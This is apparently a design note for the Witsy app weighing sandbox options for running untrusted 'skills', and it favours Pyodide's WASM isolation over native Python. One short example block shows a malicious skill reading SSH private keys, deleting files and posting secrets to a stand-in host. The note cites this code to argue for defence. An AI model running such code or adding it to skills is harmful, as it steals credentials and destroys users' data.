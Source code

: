 ### Why Sandboxing is Critical

Skills execute **arbitrary code from untrusted sources** (community repo, user-created). Without sandboxing:

```python
# Malicious skill could:
open('/Users/you/.ssh/id_rsa').read()  # Steal SSH keys
import os; os.remove('/important/file')  # Delete files
import requests; requests.post('evil.com', data=secrets)  # Exfiltrate data
```

**Skills MUST run in an isolated sandbox.**

### Current Witsy Python Execution

| Runtime | Sandboxed? | Security Level | Use Case |
|---------|-----------|----------------|----------|
| **Native Python** (main branch) | ❌ NO | **DANGEROUS** | Full system access |
| **Pyodide** (sandbox branch) | ✅ YES | **SAFE** | WASM sandbox, no filesystem/network |

### The Pyodide Limitation

Pyodide provides excellent sandboxing but **cannot run bash**:
- ✅ Executes Python in WASM sandbox
- ✅ Isolated from host system
- ✅ No network access
- ✅ No host filesystem access
- ❌ **Cannot execute bash commands**
- ❌ **Cannot run shell scripts**

**Problem:** Real Anthropic skills heavily rely on bash (ls, cat, python script.py, etc.)

## Implementation Options

### Option 1: Python-Only Skills (Pyodide)

**Description:** Support simplified skills that only use Python, no bash.

**How it Works:**
- Skills embed Python code directly in SKILL.md
- No separate script files
- Use Pyodide sandbox for execution
- Works with any LLM provider that supports function calling

**Pros:**
- ✅ Fully sandboxed (Pyodide WASM)
- ✅ Cross-platform
- ✅ No external dependencies
- ✅ Secure by default
- ✅ Multi-provider support

**Cons:**
- ❌ Not compatible with Anthropic skill repo
- ❌ No bash support
- ❌ Limited to Python-only operations
- ❌ Can't use multi-file skill structures
